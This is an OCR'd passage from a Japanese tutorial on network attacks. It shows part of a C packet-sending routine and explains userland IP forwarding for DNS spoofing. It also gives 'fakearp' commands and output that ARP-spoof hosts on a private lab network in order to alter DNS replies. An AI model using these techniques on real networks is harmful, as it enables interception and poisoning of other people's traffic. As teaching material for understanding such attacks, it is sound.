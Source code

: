     48                  ip->ip_len = BSDFIX(ntohs(ip->ip_len));
    49          }
    50
    51          if (spoof)
    52                  printf("Sending %d bytes ... ", BSDUFIX(ip->ip_len));
    53
    54          return (sendto(sd, ip, BSDUFIX(ip->ip_len), 0, (struct sockaddr *)&sin,
    55                                          sizeof(struct sockaddr_in)));
    56  }
-----


○4.4.7 IPパケットの転送

　ネットワークを流れているパケットを改ざんするためには、まず対象パケット
の流れる方向を変える必要があります。具体的には対象となるパケットがDNSスプ
ーフィングプログラムを実行するネットワーク機器を経由するように仕向ける必
要があります。
　はじめに「3. 盗聴」で実行したようにARPスプーフィングを利用して通信の流
れを変えます。ひとつ違うのは、IPパケットの転送をカーネルでおこなうのでは
なくユーザーランドでおこないます。これは、カーネルで実行するとパケットの
改ざんをおこなう前にカーネルがIPパケットの転送をおこなってしまうためです。

　今回はDNSのみを対象とするため、ポート番号が53番である場合にDNSスプーフ
ィングを実行します。
　詳細はサンプルコードを参照してください。FreeBSDで動作の確認をおこなって
います。


○4.4.8 ARPスプーフィング実行

　「3.3 盗聴の実行例」でおこなったように、HOST-AとHOST-Bに対してARPスプー
フィングをおこない、HOST-Cを経由するように仕向けます。

-----
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.7 -dh 00:1b:d3:87:2a:59 192.168.2.5
Using interface em0
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
＜省略＞

HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.5 -dh 4c:e6:76:08:96:86  192.168.2.7
Using interface em0
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
＜省略＞
-----


○4.4.9 DNSスプーフィング動作検証

　準備は整いました。HOST-CでDNSスプーフィングをおこない、HOST-AのDNSリゾ
ルバをだますことができることを確認します。
　プログラムを実行後、google.comの名前解決に対する回答を検知すると回答内
容を改ざんしてクライアントへ送信します。
